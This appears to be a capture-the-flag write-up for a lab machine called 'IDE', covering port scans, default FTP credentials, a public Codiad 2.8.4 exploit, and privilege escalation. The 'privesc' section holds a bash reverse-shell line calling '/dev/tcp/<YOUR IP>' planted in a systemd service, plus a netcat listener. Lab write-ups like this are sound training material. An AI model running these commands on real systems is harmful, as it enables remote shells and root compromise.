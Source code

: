 # IDE

## nmap scan

PORT      STATE SERVICE VERSION \
21/tcp    open  ftp     vsftpd 3.0.3 \
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) \
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu)) \
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu)) \
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel \

## ftp

Here we find the user "john" and the standard password "password"

## gobuster scan

!!on port 80 is nothing!! \
gobuster dir -u http://IP:62337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/themes               (Status: 301) [Size: 324] [--> http://10.10.102.130:62337/themes/] \
/data                 (Status: 301) [Size: 322] [--> http://10.10.102.130:62337/data/] \
/plugins              (Status: 301) [Size: 325] [--> http://10.10.102.130:62337/plugins/] \
/lib                  (Status: 301) [Size: 321] [--> http://10.10.102.130:62337/lib/] \
/languages            (Status: 301) [Size: 327] [--> http://10.10.102.130:62337/languages/] \
/js                   (Status: 301) [Size: 320] [--> http://10.10.102.130:62337/js/] \
/components           (Status: 301) [Size: 328] [--> http://10.10.102.130:62337/components/] \
/workspace            (Status: 301) [Size: 327] [--> http://10.10.102.130:62337/workspace/] 

## codiad...

On http://<IP>:62337/ we see the title "codiad 2.8.4". \
If we do some research with "searchsploit" 
- searchsploit codiad 2.8.4 
We can download us the 49705.py exploit. 

## exploit

- python3 49705.py http://<IP>:62337/ john password <YOUR IP> <PORT> linux \
Do what the exploit is saying.. and now you got a shell. 

## privesc

- sudo -l show us "/usr/sbin/service vsftpd restart" \
Lets modify this file. 
"ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<PORT> 0>&1'" \
Save it an reload the daemon. 
- systemctl daemon-reload 
- sudo /usr/sbin/service vsftpd restart 

On your machine start a netcat listener \
nc -lnvp <PORT> \

Now you are root!
